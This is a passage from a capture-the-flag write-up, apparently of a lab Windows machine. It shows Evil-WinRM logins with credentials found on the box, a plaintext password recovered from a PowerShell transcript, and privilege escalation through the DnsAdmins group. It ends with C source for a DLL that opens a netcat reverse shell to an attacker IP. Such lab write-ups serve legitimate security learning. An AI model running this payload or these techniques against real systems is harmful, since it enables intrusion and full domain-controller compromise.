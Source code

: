 ```
evil-winrm -u melanie -p 'Welcome123!' -i 10.10.10.169

Evil-WinRM shell v2.3

Info: Establising connection to remote endpoint

*Evil-WinRM* PS C:\Users\melanie\Documents>
```

# 0x2 Escalating Privileges

After looking around the Filesystem for a while, I found Powershell transcript in the *C:\pstranscripts\20191203* directory, the user Ryan specified his credentials in a Command and I was able to view them in plaintext

```
*Evil-WinRM* PS C:\pstranscripts\20191203> type PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
**********************
Windows PowerShell transcript start
Start time: 20191203063201
Username: MEGABANK\ryan
RunAs User: MEGABANK\ryan
[...]
**********************
Command start time: 20191203063515
**********************
PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```

This means that we are now able to log in as Ryan:

```
evil-winrm -u ryan -p 'Serv3r4Admin4cc123!' -i 10.10.10.169
Evil-WinRM shell v2.0
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\ryan\Documents>
```

Ryan is part of DnsAdmin Group, as DnsAdmin we can inject a DLL into the DNS service running on the Domain Controller as SYSTEM. I have crafted a simple DLL which fullfills all requirements for the dns.exe and also executes netcat to give me access to DC as SYSTEM.


```c#
#include "stdafx.h"
#include <stdlib.h>

BOOL APIENTRY DllMain(HMODULE hModule,
	DWORD  ul_reason_for_call,
	LPVOID lpReserved
)
{
	switch (ul_reason_for_call)
	{
	case DLL_PROCESS_ATTACH:
		system("c:\\windows\\system32\\spool\\drivers\\color\\nc.exe -e cmd.exe 10.10.14.164 9111");
	case DLL_THREAD_ATTACH:
	case DLL_THREAD_DETACH:
	case DLL_PROCESS_DETACH:
		break;
	}
```
